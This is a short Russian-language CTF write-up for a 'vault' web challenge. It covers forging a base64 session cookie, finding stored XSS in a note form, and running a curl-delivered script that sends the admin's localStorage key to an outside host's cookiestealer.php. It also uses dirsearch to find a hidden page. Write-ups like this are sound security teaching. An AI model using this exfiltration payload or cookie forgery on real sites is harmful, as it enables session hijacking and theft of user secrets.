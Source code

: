 1. Переводим куку юзера из base64.  Видим, что одинаковые буквы в имени пользователя соответствуют одинаковым цифрам.

2. Создаем пользователя admina. Убираем последнюю цифру имени пользователя из куки. Переводим куку обратно в base64 и передаем ее
в http://vault.ctf2019.rocks/ . Видим запись flag, но она зашифрована.

3. Тестируем на xss. Находим, что если выполняется скприпт, есть передать незашифрованный text <script>alert("TEST");</script> в addnote.

4. Видим, что ключ находится в  localStorage->key. Делаем запрос к кукой админа:
```
src="<script type="text/javascript">document.location='http://89.163.129.121:9999/cookiestealer.php?c='.concat(window.localStorage.getItem('key'));</script>"
curl "http://vault.ctf2019.rocks/addnote.php?title=aaax&text=$src"  -H 'Cookie: session=MTYsMjEsMjgsMjQsMzE6OjoxMTM3'  -v
```
получаем ключ админа

5. добавляем ключ в localStorage->key. Получаем расшифрованный флаг в записи flag admin-a.

6. Находим дополнительный флаг с помощь dirsearch  в   http://vault.ctf2019.rocks/manage
